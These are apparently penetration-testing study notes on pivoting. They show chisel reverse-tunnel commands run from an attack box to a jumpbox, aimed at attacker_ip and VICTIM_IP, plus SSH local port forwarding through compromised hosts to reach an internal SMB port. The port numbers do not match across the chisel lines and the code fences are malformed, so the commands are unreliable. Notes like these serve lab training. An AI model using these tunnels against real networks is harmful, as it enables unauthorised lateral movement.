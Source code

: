 # Bending with chisel


```bash
# on attack box
# start reverse socks proxy server on port 8080:
./chiselserver server -p 8000 --reverse

# on jumpbox (Windows example), set up reverse SOCKS proxy
.\chisel-x64.exe client attacker_ip:8295 R:80:VICTIM_IP:8295

./chiselserver server -p 443 --reverse
./chisel  client 192.168.45.230:443 R:80:127.0.0.1:80

```


# ssh

```ini
After making changes to the `sshd_config` file you must restart `sshd` for changes to take effect.

```bash
# all commands executed as ROOT

# View the SSH server status.
systemctl status ssh

# Restart the SSH server (Debian, Ubuntu, Mint)
systemctl restart ssh # newer systemd systems

# Stop the SSH server.
systemctl stop ssh

# Start the SSH server.
systemctl start ssh
```


### Local Port Forward 

Set up using OpenSSH's **-L** option, which takes two sockets (in the format IPADDRESS:PORT) separated with a colon as an argument (e.g. IPADDRESS:PORT:IPADDRESS:PORT). The first socket is the listening socket that will be bound to the SSH client machine. The second socket is where we want to forward the packets to. The rest of the SSH command is as usual - pointed at the SSH server and user we wish to connect as.

In this case, we will instruct SSH to listen on all interfaces on port **4455** on CONFLUENCE01 (**0.0.0.0:4455**), then forward all packets (through the SSH tunnel to PGDATABASE01) to port **445** on the newly-found host (**172.16.50.217:445**).

We're listening on port 4455 on CONFLUENCE01 because we're running as the _confluence_ user: we don't have the permissions to listen on any port below 1024.
